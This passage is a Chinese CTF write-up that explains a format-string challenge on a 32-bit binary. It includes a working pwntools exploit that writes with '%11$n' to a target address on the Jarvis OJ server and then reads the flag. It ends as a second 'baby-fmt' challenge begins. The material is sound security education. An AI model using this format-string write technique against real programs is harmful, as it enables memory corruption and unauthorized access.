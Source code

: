 ![setresgid.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbpmtcv5j30y301fwef.jpg)

知道这两个函数主要是保证`linux`的系统调用成功设置参数。可能还有其他的作用，没有发现，希望发现的师傅可以讲讲。

* 解题思路，只需要把`x`的参数，占栈地址的第几个就能进行打通。当时先试了试6个地址长度，发现找不到，后面试了12个地址长度，找到了

  ![找到x在栈上的实际位置.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbq6w6dsj30mi030aa7.jpg)

  可以看出x的在栈上占第11位。

  ![x_addr.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbqvmfmqj30fc02emx1.jpg)                              而且可以看到，x最后`printf`出来的是3，我们需要把它改成4.恰好x的地址在32位程序中是四字节的，正好能让参数1为4。

 exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(log_level = "debug",arch = "i386",os = "linux")

#io = process("./fm")
io = remote("pwn2.jarvisoj.com",9895)

x_addr = 0x0804A02C 
payload = flat([x_addr,'%11$n'])

io.sendline(payload)
#gdb.attach(io)

io.sendline("cat flag")
io.interactive()

pause(5)

io.close()

```

在本地能看到打通![本地打通.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbr5y4dej30lw0b90u0.jpg)

以及远程打通

![远程打通.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbrgvc2fj30lj0b2jsj.jpg)



###### baby-fmt

分析-解题

* ![checksec.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbsrxt91j30i304lgly.jpg)

  看出是64位，开了栈溢出保护，栈不可执行。

* `ida`分析
